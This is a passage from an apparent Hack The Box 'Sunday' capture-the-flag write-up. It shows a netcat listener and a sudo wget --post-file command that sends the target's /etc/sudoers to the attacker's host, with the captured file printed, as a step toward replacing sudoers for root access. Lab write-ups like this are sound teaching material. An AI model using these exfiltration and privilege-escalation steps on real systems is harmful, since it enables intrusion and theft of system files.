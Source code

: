 To do this, we can replace the /etc/sudoers file.

Let’s first copy it over to our machine so we can look at it, and change stuff without breaking anything.

I run netcat on port 80, so that we can receive an incoming file from wget.

```
kali@kali:~/htb/Sunday$ sudo nc -nlvp 80
Listening on 0.0.0.0 80
```

And then on the target: 

```
sunny@sunday:/export/home/sammy$ sudo wget --post-file=/etc/sudoers 10.10.14.69
--07:09:18--  http://10.10.14.69/
           => `index.html'
Connecting to 10.10.14.69:80... connected.
HTTP request sent, awaiting response...
```

Fairly self-explanitory syntax.

On our listener:

```
kali@kali:~/htb/Sunday$ sudo nc -nlvp 80
Listening on 0.0.0.0 80
Connection received on 10.129.89.207 55606
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.14.69
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 795

# sudoers file.
#
# This file MUST be edited with the 'visudo' command as root.
# Failure to use 'visudo' may result in syntax or file permission errors
# that prevent sudo from running.
#
# See the sudoers man page for the details on how to write a sudoers file.
#

# Host alias specification

# User alias specification

# Cmnd alias specification

# Defaults specification

# Runas alias specification

# User privilege specification
root    ALL=(ALL) ALL

# Uncomment to allow people in group wheel to run all commands
# %wheel        ALL=(ALL) ALL

# Same thing without a password
# %wheel        ALL=(ALL) NOPASSWD: ALL

# Samples
# %users  ALL=/sbin/mount /cdrom,/sbin/umount /cdrom
```